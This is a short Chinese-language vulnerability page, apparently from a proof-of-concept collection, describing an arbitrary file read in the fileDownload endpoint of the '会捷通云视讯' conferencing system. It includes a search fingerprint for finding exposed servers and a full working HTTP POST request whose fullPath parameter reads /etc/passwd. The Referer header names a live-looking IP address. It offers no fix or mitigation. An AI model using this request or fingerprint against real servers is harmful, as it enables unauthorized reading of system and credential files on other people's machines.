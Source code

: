 # 会捷通云视讯 fileDownload 任意文件读取漏洞

## 漏洞描述

会捷通云视讯 fileDownload 存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器上的任意文件

## 漏洞影响

<a-checkbox checked>会捷通云视讯</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="/him/api/rest/v1.0/node/role"</a-checkbox></br>

## 漏洞复现

登陆页面如下

![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313145854036.png)



发送请求包

```plain
POST /fileDownload?action=downloadBackupFile HTTP/1.1
Host: 
Content-Length: 24
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://36.99.45.142:9090/fileDownload?action=downloadBackupFile
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6

fullPath=%2Fetc%2Fpasswd
```



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313145853963.png)



## 